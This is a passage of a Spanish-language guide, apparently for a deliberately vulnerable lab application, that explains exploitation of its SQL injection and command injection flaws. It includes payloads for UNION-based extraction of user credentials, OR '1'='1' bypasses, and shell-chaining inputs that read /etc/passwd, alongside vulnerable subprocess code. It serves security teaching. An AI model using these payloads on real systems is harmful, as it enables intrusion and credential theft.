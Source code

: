   Esta entrada modifica la consulta a: `SELECT * FROM products WHERE name LIKE '%' OR '1'='1%'`

2. **Extraer datos de la tabla de usuarios:**
   - URL: `/search?keyword=%' UNION SELECT id, username, password, email, role FROM users WHERE '1'='1`
   
   Esta entrada usa UNION para combinar los resultados con datos de la tabla de usuarios.

3. **Manipulación de categoría:**
   - URL: `/search?keyword=laptop&category=' OR '1'='1`
   
   Esta entrada modifica la consulta para ignorar el filtro de categoría.

## 2. Inyección de Comandos

La aplicación contiene dos puntos vulnerables a inyección de comandos:

### 2.1. Herramienta de Red (`/network_tool`)

**Vulnerabilidad:** El comando ping se ejecuta directamente con la entrada del usuario sin validación.

```python
command = f"ping -c 4 {host}"
result = subprocess.run(command, shell=True, capture_output=True, text=True)
```

**Explotación:**

1. **Ejecución de comandos adicionales:**
   - Entrada: `google.com; ls -la`
   
   Esta entrada ejecuta ping y luego lista todos los archivos del directorio actual.

2. **Ejecución condicional:**
   - Entrada: `google.com && cat /etc/passwd`
   
   Esta entrada ejecuta ping y, si tiene éxito, muestra el contenido del archivo passwd.

3. **Redirección de salida:**
   - Entrada: `google.com > /tmp/output.txt`
   
   Esta entrada redirige la salida del ping a un archivo.

### 2.2. Lector de Archivos (`/file_reader`)

**Vulnerabilidad:** El comando cat se ejecuta directamente con la entrada del usuario sin restricciones de ruta.

```python
command = f"cat {filename}"
result = subprocess.run(command, shell=True, capture_output=True, text=True)
```

**Explotación:**

1. **Acceso a archivos sensibles:**
   - Entrada: `/etc/passwd`
   
